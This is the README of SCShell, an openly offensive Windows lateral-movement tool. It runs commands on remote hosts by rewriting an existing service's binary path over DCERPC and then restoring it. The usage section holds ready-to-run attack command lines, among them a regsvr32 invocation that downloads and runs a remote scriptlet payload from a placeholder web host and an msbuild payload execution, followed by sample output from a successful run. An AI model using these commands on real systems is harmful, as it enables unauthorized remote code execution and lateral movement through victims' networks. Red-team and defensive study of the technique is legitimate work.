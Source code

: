 # SCShell

SCShell is a fileless lateral movement tool that relies on ChangeServiceConfigA to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload username domain password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" administrator . Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" administrator . Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 for the moral support
